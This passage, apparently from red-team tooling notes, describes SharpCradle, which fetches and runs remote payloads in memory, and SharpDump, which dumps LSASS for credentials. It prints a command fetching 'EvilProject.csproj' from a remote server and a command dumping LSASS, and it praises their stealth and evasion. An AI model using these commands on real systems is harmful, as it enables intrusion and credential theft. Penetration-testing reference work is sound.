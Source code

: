     ```
    
    Downloads and executes a binary from a file server share using specified credentials.
    
- **Download .NET Inline Project File**:
    
    ```arduino
    SharpCradle.exe -p <https://192.168.1.10/EvilProject.csproj>
    
    ```
    
    Downloads and executes a .NET inline project file from a web server.
    

### **Additional Information**

SharpCradle is an effective tool for executing remote payloads in memory, making it a valuable asset in the toolkit of penetration testers and red teamers. The tool's ability to execute code without touching the disk enhances its stealth and evasion capabilities.

For more information, updates, and contributions, visit the GitHub repository: [SharpCradle on GitHub](https://github.com/anthemtotheego/SharpCradle).

---

## **SharpDump**

### **Description**

SharpDump is a C# port of PowerSploit's Out-Minidump.ps1 functionality. It uses the MiniDumpWriteDump Win32 API call to create a minidump of a specified process (defaulting to LSASS). The dump is then compressed using GZipStream and stored in .gz format, with the original minidump file being deleted afterward.

### **Functionality**

- **Minidump Creation**: Creates a minidump of a specified process.
- **Default Target LSASS**: Targets the LSASS process by default, useful for credential dumping.
- **Compression**: Compresses the minidump file to .gz format for reduced size and easier exfiltration.
- **Clean Up**: Automatically deletes the original minidump file after compression.

### **Usage**

- **Dump LSASS**:
    
    ```makefile
    
    C:\\Temp>SharpDump.exe
    
    ```
    
    Dumps the LSASS process to a minidump file, compresses it, and cleans up.
    
- **Dump a Specific Process ID**:
    
    ```makefile
    